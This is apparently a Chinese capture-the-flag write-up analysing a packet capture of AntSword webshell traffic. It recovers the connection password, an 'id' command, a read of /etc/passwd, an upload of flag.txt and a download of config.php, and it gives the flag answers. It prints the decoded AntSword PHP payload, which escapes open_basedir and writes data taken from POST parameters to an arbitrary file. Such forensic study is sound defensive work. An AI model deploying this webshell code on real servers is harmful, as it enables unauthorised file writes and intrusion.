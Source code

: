 # 第六章-流量特征分析-蚁剑流量分析

  
  
&lt;!--more--&gt;  
1.木马的连接密码是多少  
2.黑客执行的第一个命令是什么  
3.黑客读取了哪个文件的内容，提交文件绝对路径  
4.黑客上传了什么文件到服务器，提交文件名  
5.黑客上传的文件内容是什么  
6.黑客下载了哪个文件，提交文件绝对路径  
## 0x00 环境  
`Antsword.pcap`  
## 0x01  
利用`CTF-NETA`进行分析  
1.木马的连接密码是多少  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291940604.png)
`flag{1}`  
2.黑客执行的第一个命令是什么  
第一个返回的是`www-data`，所以猜测是`id`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291931976.png)
`flag{id}`  
3.黑客读取了哪个文件的内容，提交文件绝对路径  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291943545.png)
返回了`/etc/passwd`的内容，所以应该是`/etc/passwd`  
`flag{/etc/passwd}`  
4.黑客上传了什么文件到服务器，提交文件名  
5.黑客上传的文件内容是什么  
*解密一下流量*  
*![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291945414.png)
```php  
&lt;?php  
@ini_set(&#34;display_errors&#34;, &#34;0&#34;);  
@set_time_limit(0);  
$opdir = @ini_get(&#34;open_basedir&#34;);  
if ($opdir) {  
    $ocwd = dirname($_SERVER[&#34;SCRIPT_FILENAME&#34;]);  
    $oparr = preg_split(base64_decode(&#34;Lzt8Oi8=&#34;), $opdir);@  
    array_push($oparr, $ocwd, sys_get_temp_dir());  
    foreach($oparr as $item) {  
        if (!@is_writable($item)) {  
            continue;  
        };  
        $tmdir = $item.  
        &#34;/.368479785&#34;;@  
        mkdir($tmdir);  
        if (!@file_exists($tmdir)) {  
            continue;  
        }  
        $tmdir = realpath($tmdir);@  
        chdir($tmdir);@  
        ini_set(&#34;open_basedir&#34;, &#34;..&#34;);  
        $cntarr = @preg_split(&#34;/\\\\|\//&#34;, $tmdir);  
        for ($i = 0; $i &lt; sizeof($cntarr); $i&#43;&#43;) {@  
            chdir(&#34;..&#34;);  
        };@  
        ini_set(&#34;open_basedir&#34;, &#34;/&#34;);@  
        rmdir($tmdir);  
        break;  
    };  
};;  
  
function asenc($out) {  
    return $out;  
};  
  
function asoutput() {  
    $output = ob_get_contents();  
    ob_end_clean();  
    echo &#34;6960&#34;.  
    &#34;cb205&#34;;  
    echo@ asenc($output);  
    echo &#34;1e0a&#34;.  
    &#34;91914&#34;;  
}  
ob_start();  
try {  
    $f = base64_decode(substr($_POST[&#34;t41ffbc5fb0c04&#34;], 2));  
    $c = $_POST[&#34;ld807e7193493d&#34;];  
    $c = str_replace(&#34;\r&#34;, &#34;&#34;, $c);  
    $c = str_replace(&#34;\n&#34;, &#34;&#34;, $c);  
    $buf = &#34;&#34;;  
    for($i=0;$i&lt;strlen($c);$i&#43;=2)  
        $buf.=urldecode(&#34;%&#34;.substr($c,$i,2));  
        echo(@fwrite(fopen($f,&#34;a&#34;),$buf)?&#34;1&#34;:&#34;0&#34;);;}  
    catch(Exception $e){  
        echo &#34;ERROR://&#34;.$e-&gt;getMessage();  
    };  
    asoutput();  
    die();  
?&gt;  
```  
解密一下文件名  
```php  
&lt;?php   
$f = base64_decode(substr(&#34;0ZL3Zhci93d3cvaHRtbC9mbGFnLnR4dA==&#34;, 2));  
$c = &#34;666C61677B77726974655F666C61677D0A&#34;;  
$c = str_replace(&#34;\r&#34;, &#34;&#34;, $c);  
$c = str_replace(&#34;\n&#34;, &#34;&#34;, $c);  
$buf = &#34;&#34;;  
for($i=0;$i&lt;strlen($c);$i&#43;=2)  
    $buf.=urldecode(&#34;%&#34;.substr($c,$i,2));  
    echo(@fwrite(fopen($f,&#34;a&#34;),$buf)?&#34;1&#34;:&#34;0&#34;);  
?&gt;  
```  
在`/var/www/html`下写入了`flag.txt`文件，并且内容为`flag{write_flag}`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405292002152.png)
6.黑客下载了哪个文件，提交文件绝对路径  
wireshark中的流量解密  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405292004425.png)
可以看到是一个下载文件的请求，将`2eL3Zhci93d3cvaHRtbC9jb25maWcucGhw`进行解密得到  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405292005079.png)
`flag{/var/www/html/config.php}`  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E5%88%86%E6%9E%90-%E8%9A%81%E5%89%91%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90/  

